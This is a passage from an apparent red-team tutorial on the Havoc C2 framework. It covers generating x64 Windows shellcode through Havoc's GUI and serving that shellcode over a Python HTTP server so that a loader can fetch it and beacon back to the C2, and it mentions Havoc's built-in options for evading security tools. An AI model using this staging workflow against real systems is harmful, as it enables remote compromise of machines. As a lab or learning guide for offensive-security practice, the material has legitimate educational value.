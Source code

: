 As a result, we should be able to receive a beacon in the Havoc C2. With that being said, you might be asking yourself, what shellcode will we be using? Well, Havoc has our back on this one, as it can generate the shellcode for us.

### Generating the shellcode

To get our shellcode, we have to navigate to the `Attack` menu and subsequently click on the `Payload` dropdown as can be seen below.

![](/assets/imgs/havoc-c2/Pasted image 20240218205420.png)

This will open a window similar to the following.

![](/assets/imgs/havoc-c2/Pasted image 20240218205449.png)

Just like for the listener, we need to fill in a few values. 

* The *listener name* must be selected from the dropdown menu. Make sure to select the one we created in an earlier step.
* Preferable, leave the *Arch* at x64
* For the *format*, open the dropdown menu and click on `Windows Shellcode`

Those are the main options that we need to manage. You definitely noticed the `Config` section which contains multiple options we can select. Those are meant to be used as ways of bypassing security solutions when we attempt to issue certain commands within our beacon. However, Havoc isn't a new Framework anymore, thereby those bypasses will unfortunately not work on newer systems. Thus, we will not touch the default values.

From there, click on `Generate`.

You will notice some output in the console while the generation is being done. Bear in mind that the generation will take a few seconds. 

![](/assets/imgs/havoc-c2/Pasted image 20240218210043.png)

When the generation of the shellcode is completed, a pop-up will appear prompting us to save the shellcode to a location of our choice. Upon doing so, we should see the success message indicating that everything went well.

![](/assets/imgs/havoc-c2/Pasted image 20240218210324.png)

### Getting it all together

With our shellcode now in place, we need to navigate to the directory we saved it in and start a python http listener that will be responsible for serving the shellcode's content.

```
➜  SquidGuard python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

In this case, port `8001` is being used.

Now, it's time to update our loader with the appropriate values. The modifications only go as far as modifying the following line:
